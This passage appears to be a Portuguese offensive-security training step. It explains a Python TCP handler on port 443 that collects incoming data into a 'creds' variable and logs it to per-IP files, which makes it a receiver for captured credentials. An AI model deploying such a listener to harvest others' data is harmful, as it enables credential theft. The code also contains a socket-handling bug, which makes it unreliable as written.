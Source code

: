 <center><img src="/img/std/dojo/dojo-15.png"></center>

A atualização para esta task é bem simples, basta criar uma variável do tipo string vazia, e para cada buffer recebido, adicionamos a esta variável, o valor do buffer, ao final do loop, enviamos esta variável para a função `log`.

```python
#!/usr/bin/python3

# importacao das bibliotecas
import socket
import sys
from datetime import datetime

# variaveis do handler e buffer
lhost = "0.0.0.0"
lport = 443
buff = 1024
date = datetime.now()

# funcao que vai criar o arquivo de log e gravar o conteudo do buffer
def log(buffer, ip):
    with open("log-"+date.strftime('%d%m%Y-%H%M')+"-"+ip+".txt","w") as log:
        log.write(buffer)

# criacao do handler
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((lhost,lport))
server.listen(1)

print("[+] Iniciando handler...")

creds = ""
# loop para receber a conexao
while True:
    clientsocket, clientaddr = server.accept()
    print("[+] Recebendo conexao de " + clientaddr[0]+ "\n")
    stop = True
    clientsocket.settimeout(3)

    # loop que recebe o buffer e tenta enviar uma resposta
    while True:
        try:
            for i in range(500):
                data = clientsocket.recv(buff)
                if len(data) < 1:
                    break
                data = data.decode()
                creds += data
            log(creds, clientaddr[0])
            # tenta enviar a resposta para evitar loop infinito
            server.send(b"")
        except:
            server.close()
            sys.exit()

server.close()
```
